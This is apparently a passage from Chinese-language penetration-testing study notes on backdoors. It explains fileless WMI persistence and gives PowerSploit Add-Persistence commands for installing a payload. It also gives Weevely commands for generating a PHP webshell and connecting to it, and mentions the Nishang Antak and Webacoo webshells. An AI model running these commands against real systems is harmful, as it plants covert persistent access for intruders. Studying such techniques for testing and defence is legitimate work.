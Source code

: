 ```bash
46     -c    set the script code (ex: "#!/bin/sh\nls; exit 0")
47           escape codes will not be interpreted...
```

#### WMI型后门

该后门类型只能由管理员权限的用户运行，通常使用Powershell编写。

可以直接从新的WMI属性中读取和执行后门代码、给代码加密。通过这种方法，攻击者在系统中安装一个具有持久性的后门，且不会在系统磁盘留下任何文件。

WMI型后门主要使用了WMI的两个特征，即无文件和无进程。其基本原理是：将代码加密存储于WMI中，达到所谓的无文件；设定条件满足时，系统自动启动Powershell进程执行后门程序，执行后，进程消失，达到所谓的无进程。

##### PowerSploit添加WMI型后门

```powershell
Import-Module .\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath Payload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```

### Web后门分析与防范

#### Nishang下的WebShell

[Nishang](https://github.com/samratashok/nishang)是一款针对Powershell的渗透测试工具，集成了大量的Payload。

ASPX大马在`Antak-WebShell`下。

#### Weevely后门

这是使用Python编写的针对PHP平台的Webshell，Kali里有。

生成一个WebShell：

```powershell
weevely generate password ~/shell.php
```

其内容：

![image-20220424125510957](./image-20220424125510957.png)

连接：

```powershell
weevely http://localhost/shell.php password
```

该工具的操作可以查看其帮助文档。

#### Webacoo后门

即Web Backdoor Cookie，也是针对PHP平台的。

Kali已经不带的，需要安装，毕竟比较古老的工具了。
